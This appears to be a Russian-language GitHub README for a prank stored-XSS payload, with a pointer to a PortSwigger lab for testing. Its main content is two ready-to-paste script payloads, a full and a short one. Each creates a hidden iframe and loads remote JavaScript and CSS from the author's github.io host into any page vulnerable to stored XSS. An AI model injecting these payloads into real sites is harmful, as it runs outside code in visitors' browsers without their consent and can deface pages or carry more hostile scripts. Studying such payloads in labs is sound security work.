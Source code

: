 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f

------------------------------------------

Полная версия (музыка + CSS + доп. JS скрипты) [445 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c)};f.style.display="none"</script>

<br> Сокращенная версия (только музыка) [300 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)};f.style.display="none"</script>
